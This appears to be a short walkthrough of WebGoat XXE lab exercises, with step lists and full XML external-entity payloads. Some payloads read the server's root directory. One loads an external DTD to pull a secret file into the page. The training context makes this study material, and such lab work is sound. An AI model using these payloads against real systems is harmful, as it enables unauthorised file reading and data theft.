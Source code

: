 # XXE
### 4
- Open Burp.
- Catch request.
- Add this:
solution is in 
<?xml version="1.0"?>
 <!DOCTYPE comment [
<!ENTITY js SYSTEM "file:///"> 
]>
<comment><text>&js;</text></comment>

- Send

### 7 
- Open Burp
- Catch request
- Change Content-Type to - application/xml
- and change body to 
<!DOCTYPE user [<!ENTITY js SYSTEM "file:///"> ]><comment><text>&js;</text></comment>

### 10
attack_11_3.dtd file:
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'file:///home/webgoat/.webgoat-8.2.2//XXE/secret.txt'>


<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://localhost:9090/files/gabriel/atack_11_3.dtd">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>

then content of secret.txt will appear in comment section.